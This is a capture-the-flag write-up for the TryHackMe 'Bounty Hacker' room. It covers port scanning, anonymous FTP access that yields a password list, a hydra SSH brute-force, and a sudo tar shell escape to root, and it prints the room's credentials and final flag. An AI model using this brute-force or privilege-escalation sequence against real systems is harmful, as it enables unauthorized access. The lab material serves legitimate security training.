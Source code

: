 # Bounty Hacker CTF
Room - https://tryhackme.com/room/easyctf
# Recon
Running a port scan to find open ports
```
nmap -sS -A -oN cowboyscan.txt 10.10.234.162
```
Discover 3 open ports on this system:
```
21/tcp open ftp vsftpd 3.0.3
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
```
Port 80 is open possibly indicating its a web server. <br>  
Going to http://10.10.234.162, presents a VERY simple HTML webpage. <br>
<br> ![](https://i.gyazo.com/77d9dfc2e6cd4a507a296238d63ebd0a.jpg) <br>
Using directory enumeration to see if there are any other pages that are accessible.

```
dirb http://10.10.234.162/ /usr/share/wordlists/dirb/common.txt
```
Unfortunately this is a miss. Only returns /image which holds the only image on the main page and /server-status which returns a 403 forbidden. <br>
Moving on to try to see what I can get from FTP. <br>
It can be accessed using anonymous.<br>
```
ftp> passive off
Passive mode: off; fallback to active mode: off.
ftp> dir
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
```
After disabling passive mode and using dir. There are two files locks.txt and task.txt <br>
Using the get command to download both files to my system. <br>
task.txt reads: 
```
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
locks.txt reads:
```
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```
Strings consisting of lower and upper case alphanumeric charters, numbers and special characters. Pretty safe to assume these are passwords.
# Initial Access
Now that we have a potential set of passwords and a user (lin). We can attempt to access SSH using hydra. Which cracks it near instantly.
```
hydra -l lin -P locks.txt -u 10.10.234.162 ssh
```
```
[22][ssh] host: 10.10.234.162   login: lin   password: RedDr4gonSynd1cat3
```
```
ssh lin@10.10.234.162
```
Entering the password "RedDr4gonSynd1cat3" when prompted and we are in.
# Privilege Escalation
On the users desktop has a file which contains the first flag and is also the only file on the user.
```
lin@bountyhacker:/$ ls /root/
ls: cannot open directory '/root/': Permission denied
```
Trying to list the root directory is not allowed for this user. Seems lin is not too privileged.

```
lin@bountyhacker:/$ sudo -l
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```
`sudo -l` shows that we can run /bin/tar as root. Searching https://gtfobins.github.io/ for tar gives us this command:
```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
https://gtfobins.github.io/gtfobins/tar/#sudo

```
# whoami
whoami: not found
# 
# ls
bin   cdrom  etc   initrd.img      lib    lost+found  mnt  proc  run   snap  sys  usr  vmlinuz
boot  dev    home  initrd.img.old  lib64  media       opt  root  sbin  srv   tmp  var  vmlinuz.old
# ls /root
root.txt
# 
```

# Collection
After running we now have a shell with root permissions. Then we can read the last flag.
```
# cat /root/root.txt
THM{80UN7Y_h4cK3r}
```
